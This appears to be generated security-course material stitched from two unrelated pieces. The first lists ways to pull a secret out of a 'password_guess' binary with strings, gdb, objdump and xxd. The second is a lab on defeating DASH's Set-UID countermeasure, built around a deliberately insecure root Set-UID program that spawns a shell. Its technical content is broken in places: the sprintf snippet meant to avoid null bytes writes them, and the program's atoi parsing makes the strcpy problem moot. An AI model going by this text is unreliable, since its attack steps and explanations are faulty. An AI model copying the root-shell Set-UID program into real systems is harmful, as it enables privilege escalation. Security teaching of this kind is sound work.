### Method 1: Using `strings`
#### Steps
1. Run the `strings` command on the binary to extract printable strings:
   ```bash
   strings password_guess
   ```
2. Look for any suspicious strings that might reveal the secret.

#### Explanation
The `strings` command extracts printable ASCII strings from a binary. If the secret or any related information is stored as a string in the binary, it will be displayed.

#### Usage
```bash
strings password_guess
```

#### Solution
The secret itself is not stored as a string in this case, but you might find clues about the program's behavior.

---

### Method 2: Using `gdb` (GNU Debugger)
#### Steps
1. Launch the binary in `gdb`:
   ```bash
   gdb ./password_guess
   ```
2. Set a breakpoint at the `fread` function to intercept the secret being read from `/dev/random`:
   ```gdb
   break fread
   run
   ```
3. After hitting the breakpoint, inspect the value of the `secret` variable:
   ```gdb
   print secret
   ```
4. Note down the value of `secret`.

#### Explanation
The `gdb` debugger allows you to pause the program's execution and inspect memory and variables. By setting a breakpoint at `fread`, you can capture the value of `secret` as it is read from `/dev/random`.

#### Usage
```bash
gdb ./password_guess
(gdb) break fread
(gdb) run
(gdb) print secret
```

#### Solution
The `print secret` command in `gdb` will reveal the secret value.

---

### Method 3: Using `objdump`
#### Steps
1. Disassemble the binary using `objdump`:
   ```bash
   objdump -d ./password_guess > disassembly.txt
   ```
2. Open the `disassembly.txt` file and search for the `fread` function or references to the `secret` variable.
3. Trace the instructions to find where the `secret` value is stored in memory.

#### Explanation
The `objdump` tool disassembles the binary into assembly instructions. By analyzing the disassembly, you can locate the `fread` function and trace how the `secret` value is handled.

#### Usage
```bash
objdump -d ./password_guess > disassembly.txt
grep -i fread disassembly.txt
```

#### Solution
By analyzing the disassembly, you can identify the memory location of `secret` and extract its value.

---

### Method 4: Using a Hex Editor
#### Steps
1. Open the binary in a hex editor (e.g., `xxd`):
   ```bash
   xxd password_guess > binary_dump.txt
   ```
2. Search for patterns related to the `fread` function or the `secret` variable.
3. Extract the value of `secret` from the binary dump.

#### Explanation
A hex editor allows you to view the raw binary data. By analyzing the binary dump, you can locate the `secret` value in memory.

#### Usage
```bash
xxd password_guess > binary_dump.txt
grep -i secret binary_dump.txt
```

#### Solution
By analyzing the binary dump, you can locate and extract the `secret` value.

---

### Summary of Methods
| Method         | Tool Used      | Key Command                          | Explanation                                                                 |
|----------------|----------------|--------------------------------------|-----------------------------------------------------------------------------|
| Method 1       | `strings`      | `strings password_guess`             | Extracts printable strings from the binary.                                |
| Method 2       | `gdb`          | `gdb ./password_guess`               | Debugs the binary and inspects the `secret` variable.                      |
| Method 3       | `objdump`      | `objdump -d ./password_guess`        | Disassembles the binary to analyze the assembly code.                      |
| Method 4       | `xxd` (Hex Editor) | `xxd password_guess > binary_dump.txt` | Views the raw binary data to locate the `secret` value.                    |

---


## 3.5 Defeat DASH Countermeasure (20 pts)
In this class, I have introduced how DASH protect your system from Set-
UID programs. Now we want to beat this countermeasure. The concept is
very simple. We can use setuid to set all process-related user ID’s to the
input uid. The problem is, the root uid is 0 and you all know that strcpy()
stops when encountering zero. How to solve this problem? Please write
down your idea and launch your attack to show it works.
Of course, you can use any approaches. For your convenience, I will
give you one hint.

```
// The functions sprintf () writes a formatted string (
including the terminating null byte ('\0')) to str.
int sprintf (char *str , const char *format , ...);
```
### **Lab Setup**

1. **Environment Preparation**
   - Use a virtual machine (VM) with a Linux distribution that uses DASH as the default `/bin/sh` (e.g., Ubuntu or Debian).
   - Install necessary tools: `gcc` (for compiling C programs), `gdb` (for debugging), and any other debugging tools like `strace` or `ltrace`.
   - Create a non-root user account for testing purposes.

2. **Set-UID Program**
   - Write a simple C program that uses the Set-UID mechanism. For example:

     ```c
     #include <stdio.h>
     #include <stdlib.h>
     #include <string.h>
     #include <unistd.h>

     int main(int argc, char *argv[]) {
         if (argc != 2) {
             printf("Usage: %s <uid>\n", argv[0]);
             return 1;
         }

         uid_t uid = atoi(argv[1]);
         printf("Setting UID to: %d\n", uid);

         if (setuid(uid) == -1) {
             perror("setuid failed");
             return 1;
         }

         system("/bin/sh"); // Launch a shell with the new UID
         return 0;
     }
     ```

   - Compile the program:
     ```bash
     gcc -o setuid_program setuid_program.c
     ```

   - Set the Set-UID bit on the program:
     ```bash
     sudo chown root:root setuid_program
     sudo chmod u+s setuid_program
     ```

3. **DASH Shell**
   - Ensure that `/bin/sh` points to DASH. You can verify this with:
     ```bash
     ls -l /bin/sh
     ```
     If it points to Bash, replace it with DASH:
     ```bash
     sudo ln -sf /bin/dash /bin/sh
     ```

4. **Security Countermeasure**
   - Explain to students how DASH protects against Set-UID programs by resetting the effective UID (eUID) to the real UID (rUID) when a shell is invoked. This prevents privilege escalation.

---

### **Lab Tasks**

1. **Understand the Problem**
   - Run the `setuid_program` with a non-root UID (e.g., `1000`) and observe that it works as expected.
   - Run the `setuid_program` with the root UID (`0`) and observe that DASH resets the UID, preventing privilege escalation.

2. **Analyze the Countermeasure**
   - Use `strace` or `gdb` to analyze how DASH resets the UID when invoked with root privileges.
   - Identify the role of null bytes (`\0`) in string manipulation and how they might interfere with UID handling.

3. **Design the Attack**
   - The challenge is to bypass the null byte issue when setting the UID to `0`. Use the hint provided about `sprintf()` to craft a string that avoids null bytes. For example:
     ```c
     char uid_str[10];
     sprintf(uid_str, "%c%c%c", 0, 0, 0); // Craft a string with null bytes
     ```
   - Modify the `setuid_program` to accept this crafted string and convert it to a UID.

4. **Launch the Attack**
   - Run the modified `setuid_program` with the crafted UID string and observe whether it successfully bypasses DASH's countermeasure.
   - If successful, the program should launch a root shell.

5. **Document Findings**
   - Students should document their approach, the challenges they faced, and how they overcame them.
   - Discuss the implications of this vulnerability and how it could be mitigated.

---

### **Lab Deliverables**
1. A report detailing:
   - The steps taken to analyze and bypass DASH's countermeasure.
   - The crafted exploit and how it works.
   - Lessons learned about Set-UID programs and security mechanisms.

2. A demonstration of the exploit in action (e.g., screenshots or a video).

---

### **Lab Notes**
- **Ethical Considerations**: Emphasize that this lab is for educational purposes only and should not be used for malicious purposes.
- **Isolation**: Ensure the lab is conducted in a secure, isolated environment (e.g., a VM) to prevent any unintended consequences.
- **Mitigation**: Discuss how such vulnerabilities can be mitigated, such as by disabling Set-UID on scripts or using more secure programming practices.

---

### **Conclusion**
This lab provides hands-on experience with Set-UID programs, DASH's security mechanisms, and crafting exploits. By understanding these concepts, students will gain a deeper appreciation for system security and the importance of secure coding practices.
